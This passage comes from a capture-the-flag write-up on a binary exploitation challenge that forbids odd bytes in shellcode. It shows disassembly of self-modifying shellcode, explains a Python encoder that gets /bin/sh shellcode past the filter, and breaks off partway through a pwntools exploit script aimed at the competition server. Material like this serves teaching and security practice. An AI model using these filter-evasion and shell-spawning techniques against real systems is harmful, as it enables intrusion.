 ```  
→ 0x133713370000                  mov    al, 0x8  
  0x133713370002                  inc    BYTE PTR [rax]  
  0x133713370004                  inc    al  
  0x133713370006                  inc    BYTE PTR [rax]  
  0x133713370008                  (bad)  
  0x133713370009                  add    al, 0x0  
```  
And here it appears after both inc's have been performed:  
```  
→ 0x133713370008                  syscall  
  0x13371337000a                  add    BYTE PTR [rax], al  
  0x13371337000c                  add    BYTE PTR [rax], al  
```  
I can effectively write whatever shellcode I want at this point, albeit it in
a slightly more time-consuming fashion.

## Writing the Exploit:

During the competition window, I manually put together each instruction in a
very similar manner to that described above for the syscall. I also designed
my own binsh shellcode to include as few odd bytes as possible. However, I
have since written a helper function in an attempt to streamline the process
and make it easier to encode arbitrary shellcode in this and similar fashions.

The basic idea is to create an encoding function in python to automatically
scan through any provided shellcode, pick out odd bytes, switch them to
smaller, even bytes, and place some appropriate encoding shellcode at the
beginning in order to bring rax up to the byte and add one to the contents
during run-time. I also place a padding of nops in between the end of my
encoding shellcode and the beginning of my binsh shellcode in order to start
the binsh shellcode at a consistent location and make the function easier to
write. I could probably do without this padding if length constraints were
tighter, but as it stands, I have more than enough space and it made the
encoding function easier to write.

This encoding function could easily deal with longer and more complicated
shellcode, as long as it fits within the desired parameters. I could also
optimize it further to include less unnecessary mov instructions,
automatically come up with smaller NOP offsets, and more, but for the purposes
of this exercise, it works really well, and it could probably be edited to
work with different shellcode restrictions.

Here is the actual final script:  
```  
from pwn import *

#target = process('./two')

#pid = gdb.attach(target, "\nb *main+363\n set disassembly-flavor
intel\ncontinue")

target = remote('host1.metaproblems.com', 5480)

print(target.recvuntil(b'What is your shellcode?'))

context.clear(arch='amd64')

def encode(goal_shellcode, starting_position):  
	evened_shellcode = b''  
	encoder_shellcode = b''  
	current_position = starting_position  
	for i in range(len(goal_shellcode)):  
		current_byte_num = goal_shellcode[i]  
		if current_byte_num % 2 == 1:  
			evened_shellcode += (current_byte_num - 1).to_bytes(1, 'little')  
```